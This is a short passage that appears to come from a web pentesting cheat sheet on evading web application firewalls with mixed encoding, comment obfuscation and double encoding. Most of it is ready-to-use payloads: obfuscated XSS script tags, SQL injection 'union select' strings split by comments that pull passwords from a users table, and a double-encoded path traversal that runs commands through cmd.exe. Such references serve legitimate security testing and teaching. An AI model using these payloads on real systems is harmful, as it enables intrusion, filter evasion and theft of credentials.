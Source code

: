 ### Mixed Encoding

{% hint style="info" %}
* Such rules often tend to filter out a specific type of encoding.
* Such filters can be bypassed by **mixed encoding** payloads.
* Newlines and tabs and further add to obfuscation.
{% endhint %}

#### Examples

```
# obfuscated payload
<A HREF="h
tt p://6 6.000146.0x7.147/">XSS</A>
```

### Using comments

{% hint style="info" %}
* Comments obfuscate standard payload vectors.
* Different payloads have different ways of obfuscation.
{% endhint %}

#### Examples

```
# blocked by waf
<script>confirm()</script>

# bypassed
<!--><script>confirm/**/()/**/</script>

# blocked by waf
/?id=1+union+select+1,2--

# bypassed
/?id=1+un/**/ion+sel/**/ect+1,2--

# url example
index.php?page_id=-1 %55nION/**/%53ElecT 1,2,3,4'union%a0select pass from users#

index.php?page_id=-1 /*!UNION*/ /*!SELECT*/ 1,2,3
```

### Double Encoding

{% hint style="info" %}
* Web Application Firewall filters tend to encode characters to protect web app.
* Poorly developed filters (without recursion filters) can be bypassed with double encoding.
{% endhint %}

```
# basic request
http://example/cgi/../../winnt/system32/cmd.exe?/c+dir+c:\

# obfuscated payload
http://example/cgi/%252E%252E%252F%252E%252E%252Fwinnt/system32/cmd.exe?/c+dir+c:\

# basic payload
<script>confirm()</script>

# obfuscated payload
%253Cscript%253Econfirm()%253C%252Fscript%253E
```
